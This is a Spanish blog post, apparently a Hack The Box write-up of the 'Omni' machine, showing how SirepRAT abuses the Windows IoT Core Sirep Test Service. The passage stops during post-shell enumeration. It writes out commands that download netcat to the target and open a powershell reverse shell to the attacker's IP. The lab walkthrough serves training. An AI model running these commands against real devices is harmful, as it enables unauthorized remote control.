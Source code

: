```yaml
---
layout: post
title: Write-Up Máquina Omni HTB
date: 2021-01-12 23:28 +0800
last_modified_at: 2021-01-12 23:28 +0800
tags: [htb, writeup, python, IoT, windows, core, powershell]
toc:  false
---
```


![imagen](/assets/imagenes/2021-01-12-omni-HTB/omni-card.png)

---

La máquina Omni es una máquina en la cual esta corriendo un windows IoT core con el portal de gestion en modo Dev. Para la explotacion nos vamos a aprovechar del  Sirep Test Service que es un componente del propio IoT core para realizar comprobaciones en el hardware.

---
## Escaneo

----

![Escaneo](/assets/imagenes/2021-01-12-omni-HTB/escaneo-omni.png)

---

Una vez realizado el escaneo, podemos ver varios puertos abiertos, entre ellos el 8080. En este caso es el que nos interesa, ya que el resto de puertos son componentes internos de microsoft que no deberian ser vulnerables.

---

## Puerto 8080

---

Vamos a acceder al puerto 8080 para ver que nos muestra, aunque ya nos podemos hacer una idea de lo que es viendo el escaneo. 
si nos fijamos bien, vemos que tenemos http-auth, lo que quiere decir que seguramente sea algun panel de gestión protegido por usuario y contraseña.
Un poco más abajo, nos saca un mensaje: "Basic realm=Windows Device Portal"
Esto nos puede indicar el producto concreto que este corriendo en ese puerto.

---

![login](/assets/imagenes/2021-01-12-omni-HTB/panel-login-8080-omni.png)

---

Como podemos ver, efectivamente tenemos un login del cual no tenemos en un principio credenciales.
Vamos a intentar buscar en internet sobre este producto en busca de posibles credenciales por defecto.

---

![creds](/assets/imagenes/2021-01-12-omni-HTB/creds-default-device-portal.png)

---

El primer resultado ya nos muestra que este servicio tiene credenciales por defecto.
Vamos a probarlas.

---

![login-creds](/assets/imagenes/2021-01-12-omni-HTB/test-creds.png)

---

Si le damos ok vemos que volvemos al login por lo que esas credenciales no valen en esta máquina.
Ya que tenemos el nombre del producto que esta corriendo, vamos a buscar posibles exploits.

---
Si buscamos en google 'windows device portal exploit' nos aparecera el siguiente artículo: 
![articulo](/assets/imagenes/2021-01-12-omni-HTB/articulo-exploit-iot-core.png)

---

Este artículo hace referencia a una herramienta de explotacion desarrollada en python en el año 2019 llamada [SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT).
Esta tool se aprovecha del Sirep Test Service que es una funcionalidad nativa de los sistemas windows IoT core que se usa de manera legitima para realizar pruebas de drivers y hardware en el propio dispositivo IoT.

---

## Explotacón

---

Una vez clonado el repo de la herramienta accedemos a la carpeta y vamos a instalar los paquetes que necesite la herramienta.

---

![sirep-install](/assets/imagenes/2021-01-12-omni-HTB/requirements-sirepRAT.png)

---

Una vez instalados los requirements vamos a proceder a explotar el servicio.
Para comprobar que funciona, vamos a ejecutar *python2.7 SirepRAT.py 10.10.10.204 GetSystemInformationFromDevice*

---

![test-sirep](/assets/imagenes/2021-01-12-omni-HTB/sirep-test.png)

---

Como podemos ver nos devuelve output. eso quere decir que podemos interactuar con el servicio sin estar autenticados.

Una vez hecho este test, vamos a intentar obtener una reverse shell.
Para eso vamos a subir el binario de netcat a la máquina y lo llamaremos para obtener una shell reversa en powershell.
Primero vamos a crear una carpeta temp en la raiz.

---
![directorio-C:\temp](/assets/imagenes/2021-01-12-omni-HTB/mkdir-c-temp.png)

---
Una vez creado el directorio vamos a subir nuestro binario de nc.
Para subir el fichero vamos a levantar con python2.7 un servidor web que no nos sirve al fichero.

---
![web-nc](/assets/imagenes/2021-01-12-omni-HTB/server-web-nc.png)

---
Una vez levantado vamos donde teniamos el sirepRAT y vamos a ejecutar un comando para descargar nc64.exe a la carpeta C:\temp previamente creada.

---
![download-nc](/assets/imagenes/2021-01-12-omni-HTB/nc64-download.png)

---
Una vez descargado el binario vamos a llamarlo para que no devuelva una reverse shell de powershell en el puerto 1234.
Vamos a levantar lo primero el listener con el comando *nc -lvp 1234* y con el comando *python2.7 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\temp\nc64.exe -e powershell.exe 10.10.14.16 1234"* llamaremos a netcat y no mandara al listener la reverse shell.

---
![call-nc](/assets/imagenes/2021-01-12-omni-HTB/call-nc.png)
![nc-rev-shell](/assets/imagenes/2021-01-12-omni-HTB/shell-nc.png)

---
**!!Ya tenemos shell¡¡** Vamos a enumerar y a buscar la flag del user.
Si nos vamos a la carpeta Users de windows vemos que solo hay un usuario que es public y en su carpeta no hay ni rastro de la flag.
Vamos a enumerar. Si nos vamos a la raiz vemos que las carpetas que hay no son las que encontrariamos en un sistema windows de escritorio.

---

![ls-C:\](/assets/imagenes/2021-01-12-omni-HTB/ls-C.png)

---
A mi me ha llamado la atención la carpeta Data. Si accedemos a ella vemos que tenemos una carpeta users.

---

![dir-data](/assets/imagenes/2021-01-12-omni-HTB/dir-data.png)

---









